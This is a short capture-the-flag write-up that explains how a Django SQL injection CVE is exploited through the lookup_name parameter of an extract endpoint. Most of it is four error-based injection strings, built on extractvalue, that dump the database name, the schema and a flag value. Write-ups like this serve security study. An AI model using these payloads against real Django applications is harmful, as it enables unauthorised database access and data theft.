

# New CVE

It's Django SQL injection.

I use Error-Based SQL injection.

Locate to /test/extract/?lookup_name=year

Use this query string

```
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select database())))-- #cve
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))-- #flag
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1)))-- #flag_value
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select concat(flag_value) from flag)))--
```


